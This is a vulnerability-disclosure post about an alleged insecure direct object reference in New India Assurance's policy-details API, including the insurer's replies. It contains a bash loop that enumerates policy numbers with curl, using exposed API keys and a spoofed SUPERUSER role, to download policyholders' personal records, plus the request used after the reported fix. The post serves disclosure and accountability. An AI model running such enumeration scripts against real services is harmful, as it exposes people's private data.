 ```yaml
---
title: The New India Assurance Co Ltd Alleged Vulnerability 2024
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


An alleged vulnerability in the [New India Assurance](https://www.newindia.co.in/portal/login/customer) website allowed downloading sensitive personal information of policyholder simply by the policy number.

Summary of the alleged vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [getPolicyDetails](#1-getpolicydetails)  | 31 October 2024 | before 18 November 2024 | Less than 18 | not assigned due to non-reproducibility (due to delay in reporting it to CERT after reporting it to NIA) |

Alleged root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

It is important to note that the **company denied existence** of any vulnerability.

<!-- more -->

> Thank you for your valuable feedback. We would like to inform you that your
> concerns have been reviewed by the relevant team, and it has been confirmed that
> the system does not permit downloading of other insured details. We assure you that
> NIA is committed to maintaining the safety and security of the customers and will
> continue to do so.
> We consider the matter resolved and are closing it accordingly.

After providing them with a sample JSON file, they replied as follows:

> Dear Sir,
>
> Thank you very much for your revert and inputs.
>
> We really appreciate your concern on the matter and seriousness associated with it.
>
The  fact of matter is that we are having a managed SOC and as soon as we received your alert, we had shared the same with our partners for their response post which immediately we sought the services of Cert-In empanelled  Independent Assurance Auditor. Based on their observations, we updated both Cert-In as well as IRDA on this issue and shared our response to your query.  There was no intention of covering up and NIA believes in collaborative efforts to mitigate vulnerabilities. We are very much interested to learn more on this issue/other cyber security related  issues from you and our INFOSEC team will > coordinate with you to seek your appointment and meet you in person, if it is acceptable to you, to learn more and to infuse improvements.
>
> We once again thank you for the inputs and support.
>
> $$$
>
> Chief Manager,
>
> Corporate Finance & Accounts Dept.,
-----

### 1. getPolicyDetails

The API relied on headers `api_key` and `checksum` but these were available in the front-end code itself, and were not tied to any user session. `userid` and customer ID were also not authenticated or signed.

```bash title="sample_script.sh" linenums="1" hl_lines="2 6 7 10"
#!/bin/bash
for POLICY_NUMBER in $$$$$$$$ $$$$$$$$; do
    curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
    -H 'customerName: CUSTOMER' \
    -H 'typeOfCustomer: CUSTOMER' \
    -H 'api_key: $$$$$$$$' \
    -H 'checksum: $$$$$$$$' \
    -H 'applicationid: portal' \
    -H 'userid: CUSTCG0000' \
    --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"'"$POLICY_NUMBER"'","processType":"NB","productCode":"PU"},"productCode":"PU"}' \
    -o policy_leak_$POLICY_NUMBER.json
done
```

<details>
<summary>Sample output</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_nia/nia_vuln_1.json"
```
</details>

### $$ Alleged fix

After the alleged fix, the new curl request was as follows. Observe the new header `X-Auth-Token` and the additional `Cookie` header.

```bash title="sample_script_fixed.sh" linenums="1" hl_lines="2 8"
curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
 -H 'X-Auth-Token: $$$$$$$$' \
 -H 'customerName: CUSTOMER' \
 -H 'typeOfCustomer: CUSTOMER' \
 -H 'api_key: $$$$$$$$' \
 -H 'checksum: $$$$' \
 -H 'applicationid: portal' \
 -H 'Cookie: citrix_ns_id=$$$$$$$$' \
 -H 'userid: CUSTCG0000' \
 --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"$$$$$$$$","processType":"NB","productCode":"PU"},"productCode":"PU"}'
```
